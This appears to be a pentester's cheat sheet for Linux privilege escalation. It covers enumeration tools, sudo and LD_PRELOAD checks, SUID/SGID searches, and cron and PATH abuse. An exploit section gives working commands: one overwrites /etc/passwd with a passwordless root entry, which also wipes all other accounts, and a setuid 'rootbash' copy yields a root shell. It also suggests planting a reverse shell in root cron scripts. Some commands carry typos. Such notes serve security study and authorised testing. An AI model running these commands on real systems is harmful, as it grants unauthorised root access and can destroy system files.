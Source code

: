 ## Enumeration

### Linpeas
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

```
linpeash.sh -a > output.txt
cat output.txt | less -R
```

### linux-smart-enumeration
https://github.com/diego-treitos/linux-smart-enumeration

```
./lse.sh -l (use this to increase verbosity level default 0)
```

### linux-exploit-suggester-2 
(use this to find kernel exploits)

https://github.com/jondonas/linux-exploit-suggester-2

### Manual checks

Lists all commands the user can use with sudo permissions

```
sudo -l
```

LD_PRELOAD
```
sudo -l

// If you find inside the output of sudo -l the sentence: env_keep+=LD_PRELOAD and you can call some command with sudo, you can escalate privileges.
```

SSH directory

```
ls -l ~/.ssh
```

Which service(s) are been running by root? Of these services, which are vulnerable - it's worth a double check!

```
ps aux | grep root
ps -ef | grep root
```

Weak File Permissions
```
//if we can write this file we can add a new root user
ls -la /etc/shadow
ls -la /etc/passwd\

// exploit in this way
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su
```


SUID/SGID Executables
An SUID is a file that allows a user to execute the file with the permissions of the file owner, an SGID is the same except with the group owner. If the owner is root, we can essentially run files with root permissions.

```
//find all SUID files

find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null find all SUID files

// find all SGID files
find / -perm -g=s -type f 2>/dev/null

```
Check for services running only locally 
```
netstat -antpx
```

Crontab. The root crontab is almost always only editable by the root user or a user with full sudo privileges; however, it can still be abused. You may find a world-writable script that runs as root and, even if you cannot read the crontab to know the exact schedule, you may be able to ascertain how often it runs (i.e., a backup script that creates a .tar.gz file every 12 hours). In this case, you can append a command onto the end of the script (such as a reverse shell one-liner), and it will execute the next time the cron job runs.

```
We can confirm that a cron job is running using pspy, a command-line tool used to view running processes without the need for root privileges. We can use it to see commands run by other users, cron jobs, etc. It works by scanning procfs.

https://github.com/DominicBreuker/pspy

```

PATH ABUSE: PATH is an environment variable that specifies the set of directories where an executable can be located. An account's PATH variable is a set of absolute paths, allowing a user to type a command without specifying the absolute path to the binary. For example, a user can type cat /tmp/test.txt instead of specifying the absolute path /bin/cat /tmp/test.txt. We can check the contents of the PATH variable by typing env | grep PATH or echo $PATH.

```
We can check the contents of the PATH variable by typing 
env | grep PATH or 
echo $PATH.

If you have write permissions on any folder inside the PATH variable you may be able to hijacking some libraries or binaries:
```

### EXTRA Manual checks
check tmux session and Weak NFS Privileges



## EXPLOIT 
#### ROOTBASH
we can use this tecnquie when we found a script running as root, we can modify in this way
```
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```
Ensure that overwrite.sh is executable:
```
chmod +x /home/user/overwrite.sh
```
run and gain a root shell (-p to preserve UID)
```
/tmp/rootbash –p
```
